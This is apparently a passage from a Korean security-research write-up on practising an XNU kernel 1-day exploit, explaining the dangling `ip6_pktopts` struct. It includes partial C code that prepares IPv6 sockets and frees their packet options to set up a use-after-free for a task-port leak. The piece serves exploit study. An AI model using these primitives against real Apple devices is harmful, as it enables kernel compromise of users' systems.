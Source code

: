 dangling되는 구조체 `ip6_pktopts`의 크기는 192이다.

이 구조체를 포함하는 헤더 파일을 찾지 못해, 어쩔 수 없이 전체 구조체를 복사해서 사용했다.

그 후 `sizeof()` 함수를 호출하여 크기를 계산했다.

여기서는 구조체 멤버 분포에 따라 `ip6po_minmtu`와 `ip6po_prefer_tempaddr`를 선택해 조합했으며,

동시에 커널 포인터 특성을 추가하여 판별할 수 있다.

### task port를 leak 시키는 코드

[https://github.com/wh1te4ever/xnu_1day_practice/commit/35a968930c82a6f9c82948841bcc053b2ff906c9](https://github.com/wh1te4ever/xnu_1day_practice/commit/35a968930c82a6f9c82948841bcc053b2ff906c9)

```c
#include <stdio.h>
#include <stdint.h>
#include <stdbool.h>
#include <mach/mach.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <errno.h>

#include "helper.h"
#include "iosurface.h"
#include "exp.h"

/* int; prefer temporary addresses as the source address. */
#define IPV6_PREFER_TEMPADDR    63

#define IPV6_USE_MIN_MTU        42 /* bool; send packets at the minimum MTU */

struct ool_msg  {
    mach_msg_header_t hdr;
    mach_msg_body_t body;
    mach_msg_ool_ports_descriptor_t ool_ports;
};

int get_socket() {
    int sock = socket(AF_INET6, SOCK_STREAM, IPPROTO_TCP);
    if (sock < 0) {
        printf("[-] Can't get socket, error %d (%s)\n", errno, strerror(errno));
        return -1;
    }
    
    // allow setsockopt() after disconnect()
    struct so_np_extensions sonpx = {.npx_flags = SONPX_SETOPTSHUT, .npx_mask = SONPX_SETOPTSHUT};
    int ret = setsockopt(sock, SOL_SOCKET, SO_NP_EXTENSIONS, &sonpx, sizeof(sonpx));
    if (ret) {
        printf("[-] setsockopt() failed, error %d (%s)\n", errno, strerror(errno));
        return -1;
    }
    
    return sock;
}

// utilities to manipulate sockets
int set_minmtu(int sock, int *minmtu) {
    return setsockopt(sock, IPPROTO_IPV6, IPV6_USE_MIN_MTU, minmtu, sizeof(*minmtu));
}

// free the pktopts struct of the socket to get ready for UAF
int free_socket_options(int sock) {
    return disconnectx(sock, 0, 0);
}
```